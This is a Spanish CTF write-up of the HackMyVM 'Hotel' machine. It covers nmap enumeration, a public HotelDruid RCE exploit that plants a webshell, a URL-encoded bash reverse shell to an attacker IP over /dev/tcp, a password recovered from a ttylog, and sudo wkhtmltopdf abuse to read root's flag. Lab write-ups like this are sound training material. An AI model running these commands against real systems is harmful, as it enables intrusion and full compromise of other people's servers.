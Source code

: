 # Hotel - Writeup HackMyVm

El día de hoy veremos cómo resolver la máquina **Hotel** de la plataforma HackMyVM.  
Durante la explotación tocaremos las siguientes técnicas:

- Escaneo de puertos  
- Enumeración de directorios  
- Explotación de HotelDruid CMS (RCE)  
- Abuso de credenciales expuestas  
- Escalada de privilegios vía wkhtmltopdf  

## Enumeración

Comenzamos con un escaneo de puertos con **nmap**:

```bash
sudo nmap -p- --open -sSCV --min-rate 5000 -n -Pn 192.168.1.163
```

Resultado:

```java
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 06:1f:a2:25:19:45:2b:2f:44:cc:74:7a:e2:9b:ab:ac (RSA)
|   256 6f:b9:da:fb:eb:6b:4c:de:33:63:b7:ce:f0:2f:f7:cd (ECDSA)
|_  256 84:fb:1d:5c:4c:c6:60:e8:47:d8:2f:a0:92:8e:fb:18 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title:  Hoteldruid 
|_http-server-header: nginx/1.18.0
MAC Address: 08:00:27:9D:0F:F0 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el puerto 80 encontramos lo siguiente:  
![alt text](img/hotel001.png)

## Intrusión

Investigando un poco en internet descubrimos que se trata de un CMS para hoteles llamado **HotelDruid**.  
Usamos **searchsploit** para ver si existía algún exploit público:

```bash
searchsploit Hotel Druid
```
```bash
Hotel Druid 3.0.3 - Remote Code Execution (RCE)
HotelDruid 2.2.4 - 'anno' SQL Injection                                
HotelDruid 2.3 - Cross-Site Scripting 
HotelDruid 2.3.0 - 'id_utente_mod' SQL Injection
```

Nos llama la atención el **RCE**, así que lo descargamos y ejecutamos:

```bash
python3 50754.py -t http://192.168.1.163/ --noauth
```
```bash
/home/alejandro/Escritorio/Maquinas/hotel/nmap/50754.py:75: SyntaxWarning: invalid escape sequence '\ '
  | $$  | $$  /$$$$$$  /$$$$$$    /$$$$$$ | $$      | $$  \ $$  /$$$$$$  /$$   /$$ /$$  /$$$$$$$

 /$$   /$$             /$$               /$$       /$$$$$$$                      /$$       /$$
| $$  | $$            | $$              | $$      | $$__  $$                    |__/      | $$
| $$  | $$  /$$$$$$  /$$$$$$    /$$$$$$ | $$      | $$  \ $$  /$$$$$$  /$$   /$$ /$$  /$$$$$$$
| $$$$$$$$ /$$__  $$|_  $$_/   /$$__  $$| $$      | $$  | $$ /$$__  $$| $$  | $$| $$ /$$__  $$
| $$__  $$| $$  \ $$  | $$    | $$$$$$$$| $$      | $$  | $$| $$  \__/| $$  | $$| $$| $$  | $$
| $$  | $$| $$  | $$  | $$ /$$| $$_____/| $$      | $$  | $$| $$      | $$  | $$| $$| $$  | $$
| $$  | $$|  $$$$$$/  |  $$$$/|  $$$$$$$| $$      | $$$$$$$/| $$      |  $$$$$$/| $$|  $$$$$$$
|__/  |__/ \______/    \___/   \_______/|__/      |_______/ |__/       \______/ |__/ \_______/

Exploit By - 0z09e (https://twitter.com/0z09e)


[*] Trying to access the Dashboard.
[*] Checking the privilege of the user.
[+] User has the privilege to add room.
[*] Adding a new room.
[+] Room has been added successfully.
[*] Testing code exection
[+] Code executed successfully, Go to http://192.168.1.163/dati/selectappartamenti.php and execute the code with the parameter 'cmd'.
[+] Example : http://192.168.1.163/dati/selectappartamenti.php?cmd=id
[+] Example Output : uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

El exploit nos indica que subió una webshell a **/dati/selectappartamenti.php** con el parámetro `cmd`.  
Nos ponemos en escucha con netcat y enviamos una reverse shell:

```bash
nc -lvnp 9001
```
```bash
http://192.168.1.163/dati/selectappartamenti.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.152/9001%200%3E%261%22
```

## Escalada de privilegios

En el directorio **/var/www/html** encontramos un archivo interesante llamado `ttylog`, el cual descargamos para analizarlo en nuestra máquina.  
Con la herramienta **ttyplay** lo ejecutamos y conseguimos la contraseña del usuario **person**:  
![alt text](img/hotel002.png)

Vemos que `person` puede ejecutar la herramienta **wkhtmltopdf** como root:

```bash
person@hotel:~$ sudo -l
Matching Defaults entries for person on hotel:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User person may run the following commands on hotel:
    (root) NOPASSWD: /usr/bin/wkhtmltopdf
```

Investigando esta herramienta vemos que podemos extraer un archivo del usuario root y exportarlo a PDF para visualizarlo:

```bash
sudo wkhtmltopdf /root/root.txt root.pdf
```

Transferimos el archivo PDF a nuestra máquina:  

En la máquina víctima:

```bash
python3 -m http.server 5000
```

En la máquina atacante:

```bash
wget 192.168.1.163:5000/root.pdf
```

Al abrirlo, vemos que contiene la flag de **/root/root.txt**:  
![alt text](img/hotel003.png)

¡Ya tenemos la flag de root! 🎉